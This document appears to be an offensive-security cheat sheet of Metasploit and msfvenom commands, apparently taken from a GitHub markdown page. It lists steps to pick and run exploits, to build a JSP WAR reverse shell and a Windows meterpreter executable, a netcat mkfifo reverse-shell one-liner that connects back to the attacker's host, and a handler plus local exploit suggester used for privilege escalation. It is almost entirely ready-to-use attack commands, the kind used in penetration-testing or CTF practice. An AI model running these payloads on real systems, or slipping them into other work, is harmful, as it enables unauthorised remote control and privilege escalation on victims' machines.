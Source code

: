 
MSFconsole
---
```
search $TARGET_SERVICE
use X
 options
set LHOST
set RHOST
exploit
shell
background
```

See payload options:

```shell
msfvenom -p java/jsp_shell_reverse_tcp --list-options
```

Create payload:

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LOCAL_IP LPORT=4444 -f war > runme.war
```

Create bash reverse shell line:

```shell
msfvenom -p cmd/unix/reverse_netcat RHOST=tun0 RPORT=4444 R
```

```shell
mkfifo /tmp/ipvquh; nc $LOCAL_IP 4444 0</tmp/ipvquh | /bin/sh >/tmp/ipvquh 2>&1; rm /tmp/ipvquh
```

Create reverse shell payload, exploit user and escalate to admin:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 --platform windows LHOST=$LOCAL_IP LPORT=4444 -f exe > shell.exe
```

```msfconsole
use windows/x64/meterpreter/reverse_tcp
use windows/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 4444
exploit
use post/multi/recon/local_exploit_suggester
set session 1
exploit
#don't forget to set new handler to tun0 and new port
```